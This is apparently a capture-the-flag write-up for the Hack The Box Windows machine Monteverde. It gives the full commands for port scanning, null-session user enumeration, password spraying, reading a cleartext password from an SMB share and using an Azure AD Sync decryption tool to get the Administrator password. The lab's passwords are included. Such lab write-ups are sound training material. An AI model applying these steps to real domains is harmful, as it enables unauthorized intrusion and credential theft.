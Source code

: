 ![Monteverde](https://labs.hackthebox.com/storage/avatars/00ceebe5dbef1106ce4390365cd787b4.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [egre55](https://app.hackthebox.com/users/1190)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

```python
nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.172 -oG scan
/opt/extractports scan
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49673,49674,49676,49696 -sCV -Pn 10.10.10.172 -oN ports
```

![image](https://github.com/user-attachments/assets/df7c4a62-b26d-45d6-b631-b06c8e460a7d)

-  I found the domain `MEGABANK.LOCAL`, I added it to the file in the `hosts` file
- When I see the port 53 open, I list the mails servers and find a subdomain that I add to the hosts file

```python
dig @10.10.10.172 MEGABANK.LOCAL mx
```

![image](https://github.com/user-attachments/assets/2950ad1e-3114-4fbc-bedc-31d7f46240d4)

- I connect to rpcclient using a null session to enumerate system users. With those users I check if any of them use the same user name as their password. I find the user SABatchJobs as valid.

```python
rpcclient -U "" -N 10.10.10.172
	enumdomusers
netexec smb 10.10.10.172 -u users -p users --continue-on-success
```

- Making use of the credentials found I list the user's shares and find inside the Users$ folder an azure.xml file with a clear text password.

```python
smbclient -U 'SABatchJobs'  \\\\10.10.10.172\\users$ 
```

![image](https://github.com/user-attachments/assets/bc25e259-c68c-40b1-b176-1f7cec0ffc5a)

- I check which user this credential belongs to and find that it belongs to the user mhope. With these credentials I connect to the system with winrm and I manage to read the first flag.
```python
netexec smb 10.10.10.172 -u users -p '4n0therD4y@n0th3r$' --continue-on-success
evil-winrm -i  10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

![image](https://github.com/user-attachments/assets/1c336bf2-7370-4629-9834-4e0121a23e64)

- When I list the files in the user's directory I find the .Azure folder

![image](https://github.com/user-attachments/assets/036dadcc-2c2e-476e-9592-26616b146f28)

- When I check which groups this user belongs to, I see that he is a member of the “Azure Admins” group. Searching for information about this I find a [post](https://blog.xpnsec.com/azuread-connect-for-redteam/) that indicates several ways to get the password stored in the database. Searching further I find a [PoC](https://github.com/VbScrub/AdSyncDecrypt). 
- This indicates that we have to move to the folder `C:\Program Files\Microsoft Azure AD Sync Bin` and from this we call the PoC executable.

```python
C:\Windows\temp\AdDecrypLexe -FullSQL
```

- Thanks to this we can read in clear text the password stored in the database and after validating if it belongs to a user, we can see that it is the Administrator's password.

![image](https://github.com/user-attachments/assets/c92472ad-cd0e-474d-b080-2ec74dd74a72)

 - We use the credentials to log in and read the second flag

```python
evil-winrm -i  10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!'
```
